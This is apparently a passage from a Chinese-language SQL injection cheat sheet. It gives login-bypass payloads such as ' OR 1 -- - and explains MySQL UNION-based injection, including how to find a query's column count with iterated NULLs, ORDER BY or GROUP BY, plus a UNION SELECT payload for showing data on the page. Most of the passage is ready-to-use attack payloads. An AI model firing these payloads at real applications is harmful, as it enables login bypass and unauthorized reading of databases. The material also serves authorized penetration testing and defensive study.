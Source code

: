 * **登录**：查询类似`SELECT * FROM Users WHERE username = 'FUZZ1' AND password = 'FUZZ2';`
    ```ps1
    ' OR '1
    ' OR 1 -- -
    " OR "" = "
    " OR 1 = 1 -- -
    '='
    'LIKE'
    '=0--+'
    ```


## MySQL联合查询注入

### 检测列数

要成功执行基于联合查询的SQL注入，攻击者需要知道原始查询中的列数。


#### 迭代NULL方法

系统地增加`UNION SELECT`语句中的列数，直到负载执行无误或产生可见变化。每次迭代检查列数的兼容性。

```sql
UNION SELECT NULL;--
UNION SELECT NULL, NULL;-- 
UNION SELECT NULL, NULL, NULL;-- 
```


#### ORDER BY方法

持续增加数字，直到得到`False`响应。尽管`GROUP BY`和`ORDER BY`在SQL中的功能不同，但它们都可以以完全相同的方式用来确定查询中的列数。

| ORDER BY        | GROUP BY        | 结果 |
| --------------- | --------------- | ------ |
| `ORDER BY 1--+` | `GROUP BY 1--+` | True   |
| `ORDER BY 2--+` | `GROUP BY 2--+` | True   |
| `ORDER BY 3--+` | `GROUP BY 3--+` | True   |
| `ORDER BY 4--+` | `GROUP BY 4--+` | False  |

由于`ORDER BY 4`的结果为假，这意味着SQL查询只有3列。
在基于`UNION`的SQL注入中，你可以`SELECT`任意数据以在页面上显示：`-1' UNION SELECT 1,2,3--+`。

与前面的方法类似，如果启用了错误显示，我们可以通过一个请求来检查列数。

```sql
ORDER BY 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,35,36,37,38,39,40,41,42,43,44,45,46,47,48,49,50,51,52,53,54,55,56,57,58,59,60,61,62,63,64,65,66,67,68,69,70,71,72,73,74,75,76,77,78,79,80,81,82,83,84,85,86,87,88,89,90,91,92,93,94,95,96,97,98,99,100--+ # 'order clause'中的未知列'4'
```

